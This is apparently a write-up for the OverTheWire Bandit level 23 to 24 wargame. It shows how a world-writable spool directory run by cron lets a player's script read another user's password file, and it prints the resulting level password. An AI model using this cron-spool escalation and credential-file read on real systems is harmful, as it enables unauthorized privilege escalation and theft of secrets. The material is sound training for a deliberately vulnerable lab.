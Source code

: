 # OverTheWire Wargames

## Bandit Level 23 --> Level 24
### Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Commands you may need to solve this level
cron, crontab, crontab(5) (use “man 5 crontab” to access this)

### Solution

change dir to /etc/cron.d then see its content
```console
bandit23@bandit:~$ cd  /etc/cron.d/ 
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
```

Open cronjob_bandit24 to see the command
```console
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
```console
bandit23@bandit:/etc/cron.d$ cat bandit24 /usr/bin/cronjob_bandit24.sh
cat: bandit24: No such file or directory
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
Make bash script copy bandit24 pass in tmp dir 
```console
bandit23@bandit:/etc/cron.d$ mkdir /tmp/bandlev23
bandit23@bandit:/etc/cron.d$ cd /tmp/bandlev23
bandit23@bandit:/tmp/bandlev23$ chmod 777 /tmp/bandlev23
bandit23@bandit:/tmp/bandlev23$ nano script.sh
```
bash script
```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandlev23/pass.txt
echo "pass copied"
```

Copy your script (after make it executable) to /var/spool to execute as mention in cron
```console
bandit23@bandit:/tmp/bandlev23$ chmod 777 script.sh
bandit23@bandit:/tmp/bandlev23$ cp script.sh /var/spool/bandit24
```
Wait 60s then
```console
bandit23@bandit:/tmp/bandlev23$ ls
pass.txt  script.sh
bandit23@bandit:/tmp/bandlev23$ cat pass.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
### Password
> UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

  
